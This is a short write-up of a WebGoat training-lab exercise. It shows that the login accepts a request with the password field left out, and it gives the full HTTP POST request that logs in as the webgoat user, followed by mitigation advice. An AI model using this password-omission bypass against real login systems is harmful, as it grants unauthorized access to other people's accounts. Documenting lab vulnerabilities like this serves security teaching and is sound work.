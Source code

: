 ## Vulnerability:

Logging in as webgoat user without providing password is possible. It was observed that do not sending 'Password' field in the request body allows to log in.

Expected request body:
```
Username=<login>&Password=<password>&SUBMIT=Login
```

Sent request body:
```
Username=webgoat&SUBMIT=Login
```

It seems that backend logic checks password only if it explicitly provided in the input form.

## Exploitation:

I used Zed Attack Proxy to exploit this vulnerability. Sending following request grants access to webgoat account.

```
POST http://webgoat.hacking-lab.com/attack?Screen=39&menu=1000 HTTP/1.1
Proxy-Connection: keep-alive
Content-Length: 29
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://webgoat.hacking-lab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/39.0.2171.65 Chrome/39.0.2171.65 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://webgoat.hacking-lab.com/attack?Screen=39&menu=1000
Accept-Language: en-US,en;q=0.8
Cookie: JSESSIONID=7EF7C71D975B0B9E4C63DF97F5ED7112
Host: webgoat.hacking-lab.com

Username=webgoat&SUBMIT=Login
```

## Mitigation:

Fix backend logic to always check for the password. If password isn't present in the request form do not grant access. 
